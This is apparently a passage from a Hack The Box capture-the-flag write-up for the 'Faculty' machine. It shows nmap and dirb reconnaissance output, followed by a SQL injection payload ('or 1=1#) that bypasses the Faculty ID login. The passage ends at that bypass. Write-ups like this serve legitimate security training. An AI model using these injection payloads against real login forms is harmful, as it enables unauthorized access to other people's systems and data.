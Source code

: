----------------

# USER
### Step 1
**nmap:**
```bash
➜  faculty nmap -Pn -n -p- 10.10.11.169
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

➜  faculty nmap -Pn -n -p22,80 -sCV 10.10.11.169
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**dirb:**
```
==> DIRECTORY: http://faculty.htb/admin/
```

- http://10.10.11.169 forwards to http://faculty.htb, add to `/etc/hosts`

![[/assets/images/htb-writeup-faculty/faculty01.png]]

Testing a Faculty ID we see in Burp that it's vulnerable to SQL Injection.
![[/assets/images/htb-writeup-faculty/faculty02.png]]

![[/assets/images/htb-writeup-faculty/faculty03.png]]

Look for a authentication bypass variable.
```bash
Request: id_no=1337'
Response: 3

Request: id_no=1337'or 1=1#
Response: 1
```

Test `id_no=1337'or 1=1#` as Faculty ID on the webpage and we successfully bypass the login mechanism and are met with a scheduling system for user `Smith, John C`.
![[/assets/images/htb-writeup-faculty/faculty04.png]]
